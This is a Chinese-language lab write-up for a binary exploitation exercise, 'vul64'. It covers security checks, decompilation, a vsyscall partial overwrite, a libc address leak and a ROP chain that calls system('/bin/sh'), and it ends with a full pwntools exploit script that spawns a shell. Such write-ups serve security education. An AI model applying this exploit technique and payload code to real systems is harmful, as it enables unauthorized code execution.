

# Lab1 - vul64

## 环境配置

在 Windows 11 PC 上安装 IDA 7.7，配合服务器 Ubuntu 20.04.5 LTS 64 位，使用 gdb 调试。

## 安全措施检查

使用`checksec`检查目标程序的安全性，

```shell
checksec --format=json --file=./vul64/vul64
```

得到如下结果，

```json
{ "./vul64/vul64": { "relro":"full","canary":"yes","nx":"yes","pie":"yes","rpath":"no","runpath":"no","symbols":"no","fortify_source":"yes","fortified":"0","fortify-able":"2" } }
```

发现其开启了PIE，因此所有函数的地址都经过了随机化处理，我们需要找到正确的函数位置。

## 分析过程

使用 IDA 打开 vul64 可执行程序，使用 F5 将可执行程序 decompile 成 C Pseudocode. 能在左侧 Functions 栏中看到各个函数的信息，找到其中的 `main()` 函数作为入口。

```c
void __fastcall main(int a1, char **a2, char **a3)
{
  char buf[64]; // [rsp+0h] [rbp-110h] BYREF
  unsigned __int64 v5; // [rsp+108h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  write(1, "baby, hack meeeeeeee!\n", 0x17uLL);
  read(0, buf, 0x140uLL);
  __asm { jmp     qword ptr [rax] }
}
```

我们可以发现这个 `main` 函数其实不能正常工作，而我们需要关注的则是最后一行汇编代码，我们需要将我们想要执行的指令通过 `vsyscall` 中的 `return` 指令引入 `RIP` 寄存器，从而实现任意代码执行。

在 `pwndbg` 工具中，我们对 `main`函数中的这一行汇编代码进行断点设置，

```shell
b *$rebase(0x968)
```
在本地调试发现其地址如下图所示，



在 IDA 中查看其他函数的地址，发现 `sub_A2C` 函数中有较多的提示信息，因此我们需要调用到这个函数的地址，在栈中寻找以 `0x555555554A__` 的内存位置，发现可以通过覆盖 34 个字 + 修改最后 2 Bytes 为 `0x2c` 的方式覆盖为 `sub_A2C` 函数地址。
 
经过查阅资料，此处应当使用 `vsyscall` 的方式，`vsyscall` 在内存中的位置是固定的 `0xffffffffff600000`，而它存在的效果则是可以通过不断的调用压入栈帧，我们控制合适的次数，即可将我们想要执行的指令压入栈帧中，从而实现任意代码执行。

因此构造了如下恶意负载1用于执行 `sub_A2C` 函数，

```python
p64(0xffffffffff600000) * 34 + b'\x2c'
```

在执行 `sub_A2C` 函数后，我们可以发现它提供了 `write` 函数的地址，这样使得计算 `libc` 的基址变得更加容易，与 `vul32` 类似地，我们利用 `write` 计算出偏移量后，再次构造恶意负载2，用于执行 `system` 函数。

此处还有一个不同的是 64 bit 的程序会需要将 `system` 函数的参数放在 `rdi` 寄存器中，因此我们需要将 `rdi` 寄存器的值设置为 `/bin/sh` 的地址，这样才能执行 `system` 函数。

因此，在 libc 中找到 `pop rdi; ret` 的地址，为 `0x21112`.

构造的恶意负载2可获得目标机器的shell,

```python
b'A' * 0x33 + b"G" + p64(pop_addr) + p64(binsh_addr) + p64(system_addr)
```

带有注释的爆破代码如下

```python
from pwn import *

sh = process('./vul64/vul64')
# sh = remote('cssc.vul337.team', 49350) # connect to the remote server

pop_addr = 0x21112 # the address of the gadget "pop rdi; ret"

pwnlib.gdb.attach(sh)

payload = p64(0xffffffffff600000) * 34 + b'\x2c' # create the payload 1, 

vul64 = ELF('./vul64/vul64')
libc = ELF('./vul64/libc.so.6')

print(sh.recvline())
sh.send(payload)

rcvdata = sh.recvuntil('Want my flag? Keep going!') # hacked into sub_A2c

write_addr = u64(rcvdata.split(b'\n')[4]) # get the address of the gift write function
print(write_addr)

offset = write_addr - libc.symbols['write'] # calculate the offset of the libc

system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b'/bin/sh'))

print(system_addr)
print(binsh_addr)

system_addr = offset + system_addr # calculate the address of the system function in libc
binsh_addr = offset + binsh_addr # calculate the address of the "/bin/sh" string in libc
pop_addr = offset + pop_addr # calculate the address of the gadget "pop rdi; ret"

print(p64(system_addr))
print(p64(binsh_addr))
print(p64(pop_addr))

payload = b'A' * 0x33 + b"G" + p64(pop_addr) + p64(binsh_addr) + p64(system_addr) # create the payload 2, used to get the shell, similar to the payload 2 in lab1/vul32/exp_vul32.py
sh.sendline(payload)

sh.recv()
sh.interactive()

```